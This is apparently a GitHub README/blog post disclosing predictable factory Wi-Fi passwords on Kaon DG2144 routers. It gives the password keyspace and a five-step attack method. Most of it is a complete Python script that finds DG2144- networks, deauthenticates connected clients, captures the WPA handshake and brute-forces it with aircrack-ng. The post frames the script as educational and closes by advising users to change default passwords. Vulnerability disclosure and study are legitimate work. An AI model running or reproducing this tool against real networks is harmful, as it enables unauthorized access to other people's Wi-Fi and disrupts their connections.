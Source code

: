 # WIikaonWi
a script to take advantage of simple wifi credentials in the KAON DG2144 and other similar devices.
Wikaonwi: A Factory Wi-Fi Credential Vulnerability

Date: 1/21/25 9:35 PM

Wikaonwi:

In the ever-evolving landscape of cybersecurity, vulnerabilities can often be found in the most unexpected places. One such vulnerability has been identified in the Kaon DG2144 router, where the factory Wi-Fi password is not as random as one might expect. This flaw can lead to the easy recovery of a device's Wi-Fi credentials, posing a significant risk to users. In this blog post, we will explore the details of this vulnerability, how it can be exploited, and provide a proof of concept for educational purposes.
Understanding the Vulnerability

The Kaon DG2144 router has a predictable pattern in its factory-set Wi-Fi passwords. Instead of being randomly generated, the passwords are based on the device's serial number, which follows a specific format. For example, consider the following serial numbers:


        

        BS10096321004321

        BS10096123001234

        BS10096XXX00XXXX

        

    

The passwords are constructed using a fixed prefix (BS10096) followed by a combination of numbers, making them susceptible to brute-force attacks. The predictable nature of these passwords means that an attacker can easily generate all possible combinations and attempt to gain access to the Wi-Fi network.These devices also have a prefixed SSID which makes them easier to identify being DG2144-XXXX
How We Can Exploit This Vulnerability

To exploit this vulnerability, an attacker can follow these steps:

    Generate All Possible Combinations: Using the known format of the password, generate all possible combinations based on the serial number structure. The format is as follows: BS10096(000-999)00(0000-9999).
    Scan for Target Wi-Fi Networks: Identify Wi-Fi networks that start with the SSID prefix DG2144-.
    Deauthenticate Connected Clients: Use a deauthentication attack to disconnect clients from the target Wi-Fi network, forcing the router to send a handshake when clients reconnect.
    Capture the Handshake: Monitor the network to capture the handshake, which contains the necessary information to crack the password.
    Crack the Handshake: Use the generated combinations to attempt to crack the captured handshake and recover the Wi-Fi password.

Proof of Concept Code

Below is a Python script that demonstrates the steps outlined above. This script is for educational purposes only and should not be used for malicious activities.


```        
        
import subprocess
import time
import os
import re
import sys
import random

INTERFACE = "wlan0"

def check_root():
    if os.geteuid() != 0:
        print("This script must be run as root!")
        sys.exit(1)

def generate_combinations(i_range, j_range):
    """Generator that yields passwords with randomized j values for each i"""
    for i in i_range:
        # Generate all possible j values and shuffle them
        j_values = list(j_range)
        random.shuffle(j_values)
        
        for j in j_values:
            yield f"BS10096{i:03}00{j:04}"

def scan_for_wifi():
    print("[+] Scanning for Wi-Fi networks...")
    try:
        result = subprocess.run(["airodump-ng", INTERFACE],
                               capture_output=True,
                               text=True,
                               timeout=15)
        return result.stdout
    except subprocess.TimeoutExpired:
        return ""

def extract_network_info(output, target_ssid):
    pattern = re.compile(
        r'^([0-9A-Fa-f:]{17})\s+.*?\s+(\d+)\s+.*\s{}(?:\s*)$'.format(re.escape(target_ssid)),
        re.MULTILINE
    )
    return pattern.findall(output)

def deauth_clients(bssid):
    print(f"[!] Deauthenticating clients on {bssid}...")
    subprocess.run(["aireplay-ng", "--deauth", "10", "-a", bssid, INTERFACE],
                  stdout=subprocess.DEVNULL,
                  stderr=subprocess.DEVNULL)

def capture_handshake(bssid, channel):
    print(f"[+] Starting handshake capture on channel {channel}")
    filename = f"capture_{bssid.replace(':', '')}"
    proc = subprocess.Popen(["airodump-ng", "--bssid", bssid, "-c", str(channel),
                            "-w", filename, INTERFACE],
                           stdout=subprocess.DEVNULL,
                           stderr=subprocess.DEVNULL)
    return proc, filename

def crack_handshake(bssid, cap_file):
    """Crack handshake with randomized j values for each i"""
    print("[!] Starting randomized cracking process...")
    
    # Configure ranges (adjust these values as needed)
    i_range = range(0, 1000)    # 000-999 for middle numbers
    j_range = range(0, 10000)   # 0000-9999 for end numbers
    
    # Start aircrack-ng process
    cracker = subprocess.Popen(["aircrack-ng", "-b", bssid, f"{cap_file}-01.cap", "-w", "-"],
                              stdin=subprocess.PIPE,
                              text=True)
    
    try:
        # Generate and feed passwords to aircrack-ng
        for password in generate_combinations(i_range, j_range):
            cracker.stdin.write(password + "\n")
            cracker.stdin.flush()
            
    except BrokenPipeError:
        # This occurs when aircrack-ng exits after finding the key
        pass
    finally:
        cracker.stdin.close()
        cracker.wait()

def main():
    check_root()
    print("\n" + "="*50)
    print("Randomized Wi-Fi Cracking Tool")
    print("="*50 + "\n")
    
    target_ssid = "DG2144-"
    
    # Scan for target network
    scan_results = scan_for_wifi()
    networks = extract_network_info(scan_results, target_ssid)
    
    if not networks:
        print("[-] No matching networks found")
        sys.exit(1)
        
    # Select first found network
    bssid, channel = networks[0]
    print(f"[+] Target network found: {bssid} (Channel {channel})")
    
    # Start handshake capture
    capture_proc, cap_file = capture_handshake(bssid, channel)
    
    try:
        time.sleep(5)
        deauth_clients(bssid)
        print("[*] Waiting for handshake capture (30 seconds)...")
        time.sleep(30)
    finally:
        capture_proc.terminate()
        capture_proc.wait()
    
    # Start randomized cracking process
    crack_handshake(bssid, cap_file)

if __name__ == "__main__":
    main()

    
```
    

Conclusion

The vulnerability in the Kaon DG2144 router highlights the importance of strong, unpredictable passwords for network security. By understanding how such vulnerabilities can be exploited, users can take proactive measures to secure their devices. It is crucial to change factory-set passwords to unique, complex ones to mitigate the risk of unauthorized access. Always stay informed about potential vulnerabilities in your devices and take necessary precautions to protect your network.
